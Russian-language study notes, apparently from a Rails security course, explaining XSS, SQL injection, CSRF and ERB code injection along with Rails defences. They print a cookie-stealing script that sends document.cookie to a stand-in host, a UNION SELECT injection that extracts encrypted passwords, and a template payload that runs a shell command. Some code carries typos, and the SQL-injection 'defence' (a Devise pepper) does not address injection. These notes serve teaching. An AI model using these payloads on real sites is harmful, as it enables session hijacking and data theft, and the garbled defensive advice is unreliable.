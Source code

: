 XSS - это уязвимость при которой хакер получает возможность внедрить свой JavaScript код на сайт . 
Как это обычно происходит ?
Хакер обычно регистрируется на сайте . И начинает испытывать его на прочность . Для этого он например заходит в форму редактирования профиля . И пытается внедрить туда простой JavaScript code . Обновляет и видит что этот код сработал . То есть уязвимость здесь присутствует . При определенных обстоятельствах он может похитить сессий пользователей . Для этого он может создать свой какой-то сайт . И создать код где он получает cookie пользователя и отправляет на свой сайт .
```js
<script>
var x = new HMLHttpRequest();
x.open("GET","http:hacker-site.test/save_cookie?cookie="+encodeURIComponent(document.cookie),!0);x.send();
</script>
```
Теперь каждый пользователь который зайдет на эту страницу . Cookie этого пользователя отправятся на его сайт . К Хакеру прилетела эта Cookie . Он берет редактирует через Cookie . Сохраняет . Обновляет и он уже залогинен как Боб .

Как защитится от атаки ?
По умолчанию Рейлс всегда экранирует html символы когда мы пытаемся вывести строку в URLB шаблоне .
Когда мы вызываем html_safe мы по сути говорим рейлсе что строка на 100 процентов безопасна . Мы все проверили опасного кода в ней нет
![[Pasted image 20250915194411.png]]
![[Pasted image 20250915194400.png]]Желательно все места где ввод от пользователя обрабатывать с помощью Helperov например "strip_tags()"
![[Pasted image 20250915194626.png]]
На самом деле в Рейлс есть защита от кражи Cookie . У Cookies есть множества различных флагов . Например HttpOnly . Когда он выключен мы можем с помощью JavaScript получить cookie . Но если мы включим этот флаг .


SQL - Injection - самая опасная уязвимость . Это уязвимость при которой злоумышлиник может внедрить свой собственный код в ваш SQL запрос . Обычно хакеры проверяют на SQL уязвимость с помощью кавычки . Нам нужно отсечь остальную часть запроса . И у нас запрос срабатывает .
```sql
http://social.test/payments?year=2024)ORDER by id desc--
```
Чтобы вывести платежи всех пользователей :
```sql
SELECT
"payments".*
FROM "payments"
WHERE
"payments"."sender_id" = 6
AND (extract(year from created_at) = OR 1=1)
UNION SELECT id,id,id,ecrypted_password,'email','balance',NOW(),NOW() from USERS--
```

Защита от SQL injection 
У гема device есть такой config.pepper ='jhbtgvfc' . И даже если хэши кто-то украдет они будут бесполезны без вот этой Соли . Главное эту соль потом не потерять .

CSRF - Cross-Side request forgery . Очень хитрая уязвимость .
![[Pasted image 20250915201049.png]]
Пример атаки CSRF . Хакеру понравилась форма перевода денег на вашем сайте . Он создает како-то фишинговый сайт . Потом идет на наш сайт копирует эту форму . Открывает код своего сайта . добовляет туда форму . Убирает все лишнее . 
![[Pasted image 20250915201448.png]]Каждый кто нажмет на кнопку . По факту будет сабмитить вот эту форму перевода денег .

В рубиан рейлс есть несколько видов защиты от этой атаки . Same_site : lax (запрещает пост запросы)![[Pasted image 20250915201829.png]]
Есть хакер обнаружит что даже оплата у нас возможна через гет запрос . И хакер меняет свою форму на ссылку . 
Атаку CSRF комбинируют с атаку с XSS

Защита от атаки CSRF :
1 Следуем правилам REST
2 Не отключаем защиту от CSRF 

Code Injection - самая редкая и опасная уязвимость . Наш хакер зашел в пеименты открыл чек . Смотрит на него и решает попытатся поиграться . Он пишет например .

```
Hacker<%= `ls -la` %>
```
Обновляет чек и видим что команда выполнилась . И по сути видим что он заинектил свой код.
Ошибка render inline получает то что нам вернул render_liquid кода а потом еще раз обрабатывает результат как ERB шаблон . Нужно использовать render_html . 
![[Pasted image 20250916153810.png]]

async function fetchData() {
  try {
    let response = await fetch("https://invalid-url.com");
    let data = await response.json();
    console.log(data);
    console.log('Hello')
  } catch (error) {
    console.log("Ошибка при запросе:", error.message);
  }
}

fetchData();

